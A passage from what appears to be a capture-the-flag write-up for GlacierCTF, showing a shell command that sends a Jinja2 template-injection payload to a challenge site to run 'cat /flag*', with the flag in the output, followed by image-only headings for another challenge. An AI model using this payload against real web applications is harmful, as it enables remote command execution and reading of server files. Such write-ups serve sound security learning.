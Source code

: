 ```bash
┌──(bravosec㉿fsociety)-[/media/sf_Kali/ctf/GlacierCTF]
└─$ http 'https://myfirstsite.web.glacierctf.com/{{lipsum.__globals__["os"].popen("cat /flag*").read()}}'|h2t


404 - Page Not Found

Oops! The page you're looking for at /gctf{404_fl4g_w4s_f0und} doesn't exist.
```
## Glacier Exchange

### Info

![](attachment/160e5f93fbe24dad27a1ffc89689e229.png)
### Solve

#### Enum

![](attachment/56ff3337b26233188c2b1fd561a6da5f.png)
